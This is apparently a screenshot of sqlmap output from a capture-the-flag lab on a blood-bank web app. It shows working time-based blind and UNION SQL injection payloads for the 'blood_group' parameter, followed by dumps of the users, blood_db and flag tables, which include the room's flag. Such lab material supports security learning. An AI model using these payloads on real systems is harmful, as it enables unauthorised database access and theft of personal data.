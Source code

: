 ```
---
Parameter: blood_group (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: blood_group=A+' AND (SELECT 2957 FROM (SELECT(SLEEP(5)))lpcx) AND 'MmpH'='MmpH

    Type: UNION query
    Title: Generic UNION query (NULL) - 8 columns
    Payload: blood_group=A+' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,CONCAT(0x71787a7871,0x56626a6a7256627368576e504570586a707552505a51447064644a656a6170594762497163625a66,0x7176707671),NULL,NULL-- -
---
[22:14:56] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx 1.10.3
back-end DBMS: MySQL >= 5.0.12
[22:14:56] [INFO] fetching tables for database: 'blood'
[22:14:56] [INFO] fetching columns for table 'users' in database 'blood'
[22:14:57] [WARNING] reflective value(s) found and filtering out
[22:14:57] [INFO] fetching entries for table 'users' in database 'blood'
Database: blood
Table: users
[3 entries]
+----+------------+---------+-----------+----------+----------+-----------+-------------+--------------+-------------------+
| id | dob        | gender  | address   | password | username | full_name | blood_group | phone_number | email_address     |
+----+------------+---------+-----------+----------+----------+-----------+-------------+--------------+-------------------+
| 1  | 12/12/1996 | <blank> | Kathmandu | nare     | nare     | nare      | O+          | 9800000000   | nare@nare.sqlmap  |
| 2  | 12/12/2222 | MALE    | google    | nare     | nare     | google    | A+          | 12345555     | google@google.com |
| 3  | 12/12/2021 | MALE    | google    | google   | google   | GOogle    | A+          | 1234567890   | google@gmail.com  |
+----+------------+---------+-----------+----------+----------+-----------+-------------+--------------+-------------------+

[22:14:57] [INFO] table 'blood.users' dumped to CSV file '/home/kali/.local/share/sqlmap/output/10.10.60.177/dump/blood/users.csv'
[22:14:57] [INFO] fetching columns for table 'blood_db' in database 'blood'
[22:14:58] [INFO] fetching entries for table 'blood_db' in database 'blood'
Database: blood
Table: blood_db
[1 entry]
+----+-----+------+--------+-----------+-------------+--------------+--------------------+
| id | Age | Name | Gender | Address   | blood_group | Phone_number | email_address      |
+----+-----+------+--------+-----------+-------------+--------------+--------------------+
| 1  | 27  | Nare | MALE   | Kathmandu | O+          | 9800000000   | nare@sqlmap.com.np |
+----+-----+------+--------+-----------+-------------+--------------+--------------------+

[22:14:58] [INFO] table 'blood.blood_db' dumped to CSV file '/home/kali/.local/share/sqlmap/output/10.10.60.177/dump/blood/blood_db.csv'
[22:14:58] [INFO] fetching columns for table 'flag' in database 'blood'
[22:14:58] [INFO] fetching entries for table 'flag' in database 'blood'
Database: blood
Table: flag
[1 entry]
+----+---------------------+------+
| id | flag                | name |
+----+---------------------+------+
| 1  | thm{sqlm@p_is_L0ve} | flag |
+----+---------------------+------+
```